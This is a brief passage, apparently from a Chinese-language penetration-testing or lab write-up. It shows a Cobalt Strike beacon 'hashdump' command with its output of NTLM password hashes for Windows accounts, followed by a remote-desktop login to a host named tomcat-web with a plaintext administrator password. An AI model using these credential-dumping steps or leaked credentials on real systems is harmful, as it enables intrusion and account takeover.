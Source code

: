 MD5解密hash：

```beacon
beacon> hashdump
[*] Tasked beacon to dump hashes
[+] host called home, sent: 82541 bytes
[+] received password hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:42e2656ec24331269f82160ff5962387:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

<img src=".\图片\Snipaste_2023-05-12_15-14-01.png" alt="Snipaste_2023-05-12_15-14-01" style="zoom:50%;" />

远程桌面连接 tomcat-web，administrator:QWEasd123
